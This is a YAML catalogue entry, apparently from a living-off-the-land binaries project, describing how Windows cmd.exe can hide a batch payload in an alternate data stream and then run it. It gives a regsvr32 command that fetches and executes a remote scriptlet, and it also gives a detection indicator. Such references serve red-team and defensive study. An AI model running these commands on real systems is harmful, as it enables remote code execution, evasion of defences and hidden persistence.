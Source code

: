```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: 'Ye Yint Min Thu Htut'
Created: '2019-06-26'
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1170
    MitreLink: https://attack.mitre.org/wiki/Technique/T1170
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Code_Sample: 
- Code:
Detection:
 - IOC: cmd.exe executing files from alternate data streams.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
---
```

